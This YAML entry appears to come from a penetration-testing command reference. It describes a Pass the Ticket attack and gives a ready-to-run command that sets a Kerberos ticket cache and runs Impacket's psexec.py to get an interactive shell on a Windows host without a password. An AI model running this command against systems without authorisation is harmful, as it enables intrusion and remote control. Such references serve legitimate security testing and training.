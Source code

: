 ```yaml
---
title: |
  Get an Interactive Shell on the Windows host using Pass the Ticket (PTT)
description: |
  Impacket's psexec.py offers psexec like functionality. This will give you an interactive shell on the Windows host. psexec.py also allows using Service Tickets, saved as a ccache file for Authentication. It can be obtained via Impacket's GetST.py

  Command Reference:

  	Target IP: 10.10.10.1

  	Domain: test.local

  	Username: test

command: |
  export KRB5CCNAME=/full/path/to/test.ccache; python3 psexec.py test.local/test@10.10.10.1 -k -no-pass
items:
  - TGS
  - Username
services:
  - SMB
OS:
  - Linux
  - Windows
attack_types:
  - Exploitation
references:
  - https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py
  - https://www.sans.org/blog/psexec-python-rocks/
  - https://book.hacktricks.xyz/windows/active-directory-methodology/pass-the-ticket#pass-the-ticket-attack
---
```


